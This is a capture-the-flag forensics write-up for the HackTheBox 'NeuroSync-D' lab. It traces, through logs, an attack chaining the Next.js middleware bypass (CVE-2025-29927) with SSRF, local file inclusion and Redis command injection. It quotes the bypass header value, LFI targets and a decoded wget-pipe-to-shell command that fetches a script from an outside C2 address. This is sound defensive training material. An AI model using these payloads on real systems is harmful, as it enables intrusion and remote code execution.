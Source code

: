 # [HackTheBox Sherlocks - NeuroSync-D](https://app.hackthebox.com/sherlocks/NeuroSync-D)
![88c28e4ff83a53a51595847681cbfab9.png](../../../_resources/88c28e4ff83a53a51595847681cbfab9.png)
**Scenario:**
NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

* * *
![a0cde20a073d5ec4a92ea8306e851214.png](../../../_resources/a0cde20a073d5ec4a92ea8306e851214.png)

On this sherlock, we will have to dig into how the Next.js middleware bypass could be exploited and could be chained for SSRF, Local File Inclusion and command execution on Redis! 

we will have 5 log files to investigate from
1. `access.log`: This is typically a web server log which records every HTTP/S request made to the system.
2. `bci-device.log`: This is likely a custom log related to a **BCI** (Brain-Computer Interface) or a similarly named device/system. It logs interactions between the software and the physical or virtual device.
3. `data-api.log`: Log file from a backend API that handles data requests.
4. `interface.log`: This tracks what’s happening on the user interface (GUI or CLI). It logs how users interact with the system or app front-end.
5. `redis.log`: Logs from Redis, an in-memory database often used for caching, session storage, or real-time data.

>Task 1: What version of Next.js is the application using?

![ade2336486fb2cece942c8e6419515fd.png](../../../_resources/ade2336486fb2cece942c8e6419515fd.png)

Since Next.js is React-based full-stack framework so we could inspect the `interface.log` to find out the version and also the local port that Next.js-based application was running on the server as shown in the image above.

```
15.1.0
```

>Task 2: What local port is the Next.js-based application running on?
```
3000
```

>Task 3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

![c28e0a8bb94a5d569e8131cc270e10eb.png](../../../_resources/c28e0a8bb94a5d569e8131cc270e10eb.png)

In March 2025, the new Next.js middleware bypass vulnerability was disclosed with **9.1 CVSS** score which threat actor/attack can send the `x-middleware-subrequest` header that meant to be used internally with a specific value to **trick the application into treating them as internal subrequests** which effectively bypass middleware authorization and access the endpoint/resources that are not intended to be accessed without proper authorization.  

![b16cd9bed4c7da3d6f3d5b6274acc801.png](../../../_resources/b16cd9bed4c7da3d6f3d5b6274acc801.png)

An article published on [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass) also provides different values that could be used with `x-middleware-subrequest` header on different version of vulnerable Next.js and also provides Nuclei template to discover this vulnerability.

![435ca2036c9e979fd31214f254a1f89b.png](../../../_resources/435ca2036c9e979fd31214f254a1f89b.png)

The article also explained how this template works which will help us on this sherlock as well! 

```
CVE-2025-29927
```

>Task 4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

![0196e129488dfc2a15e293bd767e363e.png](../../../_resources/0196e129488dfc2a15e293bd767e363e.png)

Lets check out the `access.log` file which we can see that there is only a single IP address that interacted with the Next.js application.

![a003ff40df544beda7fe95b4c093bd80.png](../../../_resources/a003ff40df544beda7fe95b4c093bd80.png)

Then we can read the content of the log file which we can see that the first HTTP response beside `/` happened at 11:37:44.

```
main-app.js
```

>Task 5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

![52b6df7a7764762f1d9e4af57084d7db.png](../../../_resources/52b6df7a7764762f1d9e4af57084d7db.png)

We can see that after the attacker discovered main page of this Next.js application, an api endpoint was requested constantly by the attacker and the first 5 requests are resulted in Unauthorized response.

```
/api/bci/analytics
```

>Task 6: How many requests to this endpoint have resulted in an "Unauthorized" response?

![2ff32fe9e1570a4940e1262c1038b803.png](../../../_resources/2ff32fe9e1570a4940e1262c1038b803.png)

We know that the first 5 request to this api endpoint resulted in Unauthorized response but is there more?, the result from `grep 401 access.log` command shows that there are no more than this.

```
5
```

>Task 7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

![89447a341e7c1d699735e7065a4b9a47.png](../../../_resources/89447a341e7c1d699735e7065a4b9a47.png)

Then after those 5 unauthorized access, HTTP 200 status was seen from the 6th request and the rest and it indicates that the middleware authorization has been bypassed according to Nuclei template provides by [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

```
2025-04-01 11:38:05
```

>Task 8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

![8fee94ba380637d33571ea851dc3ceae.png](../../../_resources/8fee94ba380637d33571ea851dc3ceae.png)

Since the Next.js running on this application is 15.1 which mean the value of `x-middleware-subrequest` header has to be `middleware:middleware:middleware:middleware:middleware` to actually get to trigger this vulnerability 

and from `interface.log`, we can see that there are 4 attempts trying to get this vulnerability to work which was resulting to successfully exploited this vulnerability at the end.

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

>Task 9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

![1b09ac335741eb728aaeee9d8f8aacb9.png](../../../_resources/1b09ac335741eb728aaeee9d8f8aacb9.png)

We can inspect the `data-api.log` file which we can see that the attacker used curl to trigger SSRF vulnerability and discovered another internal API on port 4000 which attacker then proceed to find other endpoint on this API.

```
4000
```

>Task 10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

![f7042475e8f34040c76a5a282b19ce86.png](../../../_resources/f7042475e8f34040c76a5a282b19ce86.png)

We could keep scrolling until we finally see the payload that resemble Local File Inclusion vulnerability exploitation payload from `/logs` endpoint which attacker found that he could leverage `logFile` variable on this endpoint to list file from the server.

```
/logs
```

>Task 11: When the vulnerable endpoint found was used maliciously for the first time?

![f7042475e8f34040c76a5a282b19ce86.png](../../../_resources/f7042475e8f34040c76a5a282b19ce86.png)

We can see that the attacker started with `/etc/passwd` first then went to `/proc/self/environ` later.

```
2025-04-01 11:39:01
```

>Task 12: What is the attack name the endpoint is vulnerable to?
```
Local File Inclusion
```

>Task 13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

![b796692387a8c743b2a92719f7da58d6.png](../../../_resources/b796692387a8c743b2a92719f7da58d6.png)

Lastly the attacker then used LFI to get secret key file from tmp directory before went to access Redis with the key obtained.

```
secret.key
```

>Task 14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

![79efce5295123a9c70b884785a597551.png](../../../_resources/79efce5295123a9c70b884785a597551.png)

From redis log, we can see that the attacker executed base64 command after he successfully compromised secret key to access Redis.

```
OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
```

>Task 15: Once decoded, what is the command?

![04e2d568d2a8e4db3133366bbbec8cbb.png](../../../_resources/04e2d568d2a8e4db3133366bbbec8cbb.png)

We can copy the base64 to decode it directly with CyberChef which we can see that the attacker trying to fetch the bash script from C2 and execute it.

![7c3c171fd417253729cad642ed03a045.png](../../../_resources/7c3c171fd417253729cad642ed03a045.png)

We could also find the same command from `bci-device.log` which gave us an extra context that this command did not work due to the missing `wget` binary on the server.

```
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

https://labs.hackthebox.com/achievement/sherlock/1438364/879

And now we are done!
* * *
